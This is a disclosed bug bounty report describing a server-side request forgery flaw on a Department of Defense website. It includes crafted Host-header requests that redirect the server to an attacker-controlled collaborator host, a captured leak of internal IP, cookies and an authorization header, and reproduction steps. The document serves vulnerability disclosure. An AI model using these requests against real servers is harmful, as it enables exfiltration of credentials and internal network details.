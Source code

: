 # SSRF vulnerability on ██████████ leaks internal IP and various sensitive information

## Report Details
- **Report ID**: 310036
- **URL**: https://hackerone.com/reports/310036
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-01-28T20:39:38.355Z
- **Disclosed**: 2019-12-02T19:04:17.885Z

## Reporter
- **Username**: alyssa_herrera
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
A server side request forgery vulnerability appears to leak an internal IP address and tries to connect to an attacker controlled host.
**Description:**
In an normal request on this web page 
```GET /HTTP/1.1
Host: www.████████
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: mt=rid=6130; ASPSESSIONIDQABQSQCS=GNPLOPOCDIGPIKHGFMDDBLBG; googtrans=/en/zh-TW
Connection: close
Upgrade-Insecure-Requests: 1
``` It will connect to the website as expected but if we use a @ on the host header like this 
```
GET / HTTP/1.1
Host: www.█████████:80@██████████.burpcollaborator.net
Pragma: no-cache
Cache-Control: no-cache, no-transform
Connection: close
```
It'll attempt to connect to our website and leak various information. 
On our  server we would see this, 
```
GET / HTTP/1.1
Host: ████████.burpcollaborator.net
Pragma: no-cache
Cache-Control: no-cache, no-transform
Cookie: mt=rid=6130; ASPSESSIONIDQABQSQCS=GNPLOPOCDIGPIKHGFMDDBLBG
X--------------: 1.1.1.1      
Accept-Encoding: gzip, deflate, identity
Connection: Keep-Alive
Authorization: Basic ████████
X-BlueCoat-Via: 913daace1d652c00
```
Additionally we will see a DNS look up from this IP, 214.72.0.2 Which I confirmed to be DOD owned
## Impact
Medium
## Step-by-step Reproduction Instructions
We can reproduce this simply using www.████:80@yourhostname.com for the host header and we'll the see the results. As seen below 
```
GET / HTTP/1.1
Host: www.████:80@yourwebsite.com
Pragma: no-cache
Cache-Control: no-cache, no-transform
Connection: close
```
If you have burp suite pro, you can do this easily with burp collaborator 
## Product, Version, and Configuration (If applicable)
N/a
## Suggested Mitigation/Remediation Actions
Refuse  attempts to connect to other hosts.

## Impact

This will allow attackers to gain access to an internal IP of a DOD website along with other sensitive information that may be leaked with the request

## Attachments
No attachments
